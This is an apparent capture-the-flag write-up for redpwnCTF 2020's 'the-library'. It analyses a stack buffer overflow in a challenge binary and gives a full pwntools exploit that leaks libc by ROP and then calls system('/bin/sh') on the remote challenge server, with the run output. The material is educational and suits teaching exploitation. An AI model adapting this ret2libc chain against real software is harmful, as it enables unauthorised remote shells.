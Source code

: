 # redpwnCTF 2020

## pwn/the-library

> NotDeGhost
> 
> 424
>
> There's not a lot of useful functions in the binary itself. I wonder where you can get some...
> 
> `nc 2020.redpwnc.tf 31350`
>
> [`the-library.c`](the-library.c) [`libc.so.6`](libc.so.6)
[`the-library`](the-library)

Tags: _pwn_ _x86-64_ _remote-shell_ _rop_ _bof_


## Summary

BOF -> ROP -> leak libc -> ret2main -> shell

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No shellcode on the stack, but thats about it for mitigations.  Easy read/write GOT, easy BOF, easy ROP.

    
### Decompile with Ghidra

```c
undefined8 main(void)

{
  char local_18 [16];
  
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Welcome to the library... What\'s your name?");
  read(0,local_18,0x100);
  puts("Hello there: ");
  puts(local_18);
  return 0;
}
```

I still disassemble/decompile even if source included for the following reasons:

1. Source can lie, it's true; at least two 2020 CTFs, the _source_ did not exactly match the binary behavior.  Probably older source, newer binary or vv.  OTOH, at times the remote binary is not the same as the downloaded binary, in that case, perhaps the source is correct.  Anyway, collect as much data as you can.
2. The compiler may interpret the source differently than your head.  This is especially true with stack offsets.
3. I've developed a consistent workflow, _checksec_ -> _Ghidra_ -> _explore a bit_ -> _think about it..._.  I've gotten used to looking at binaries with Ghidra and while source code can vary widely, Ghidra normalizes this somewhat, at least for me, unless Go, Rust, etc... binaries, then it's back to basics, _strings_ -> _objdump_ -> _testing_ -> _googling_ -> _panic_ :-) (Actually Go is doable, you get used to it, Rust is a completely different animal--this is a good thing).
4. I've become very dependent on the Ghidra stack diagrams, esp. for BOF.  Above, I know that the input buffer `local_18` is exactly `0x18` from the return address in the stack.  I also know if there are other variables where they are relative to each other so I can overflow just enough or avoid a canary, etc...

_Moving on..._

This is a simple BOF task, the input buffer is `0x18` bytes from the return address in the stack and `read` will take up to `0x100` (256) bytes supporting a rather large ROP chain.

There's only one pass, and since ASLR will still obfuscate the location of libc, we'll have to leak that first and then jump back up to main.  With libc location known, we can get a shell.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./the-library')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc = ELF('libc.so.6')
context.update(arch='amd64',os='linux')

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

#p = process(binary.path)
p = remote('2020.redpwnc.tf', 31350)
```

Initial setup and find a `pop rdi` gadget from the binary.


```python
payload  = 0x18 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got['puts'])
payload += p64(binary.plt['puts'])
payload += p64(binary.symbols['main'])

p.sendlineafter('name?',payload)

_ = p.recvuntil('Welcome').split(b'Welcome')[0].strip()[-6:]
puts = u64(_ + b'\x00\x00')
baselibc = puts - libc.symbols['puts']
print('baselibc',hex(baselibc))
libc.address = baselibc
```

First pass.  Just overflow the buffer with `0x18` bytes, then using `puts` from the GOT, have it leak it's address, then jump back to `main` for a second pass.

With the `puts` address known and the version of libc provided, computing the base of libc is trivial.


```python
payload  = 0x18 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.symbols['system'])

p.sendlineafter('name?',payload)

p.interactive()
```

Final pass.  Again overflow the buffer with `0x18` bytes, but this time call `system` from libc.

> The `p64(pop_rdi + 1)` is actually `ret` (`pop rdi` is 2 bytes, the 2nd is `ret`).  This fixes a stack alignment problem that would otherwise segfault `system`.  Most of the time it is needed, but not always, and in one recent case, `execve` had to be used instead.  See [Blind Piloting](https://github.com/datajerk/ctf-write-ups/blob/master/b01lersctf2020/blind-piloting/README.md) more info as well as links if you want a deeper understanding (it's long, search for _alignment_).

Output:

```
# ./exploit.py
[*] '/pwd/datajerk/redpwnctf2020/the-library/the-library'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/pwd/datajerk/redpwnctf2020/the-library/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loading gadgets for '/pwd/datajerk/redpwnctf2020/the-library/the-library'
[+] Opening connection to 2020.redpwnc.tf on port 31350: Done
baselibc 0x7f10b1c0a000
[*] Switching to interactive mode

Hello there:
AAAAAAAAAAAAAAAAAAAAAAAA4\x07
$ cat flag.txt
flag{jump_1nt0_th3_l1brary}
```